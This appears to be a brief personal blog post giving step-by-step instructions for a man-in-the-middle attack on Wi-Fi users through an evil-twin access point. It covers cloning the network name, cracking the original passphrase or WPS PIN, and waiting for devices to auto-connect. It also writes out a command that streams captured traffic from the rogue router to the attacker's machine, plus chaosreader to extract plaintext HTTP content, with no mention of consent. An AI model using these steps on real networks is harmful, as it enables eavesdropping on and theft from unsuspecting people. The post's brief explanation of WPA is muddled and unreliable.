```yaml
---
layout: post
published: true
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT (If you want to try on your laptop, try aircrack-ng also)
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then `mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

computing a shared secret composite of a passphrase, a nonce and BSSID, without revealing any infomation about the passphrase, both Client and AP. This is also using a Key Exchange protocol to avoid replay/MITM attack.

- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
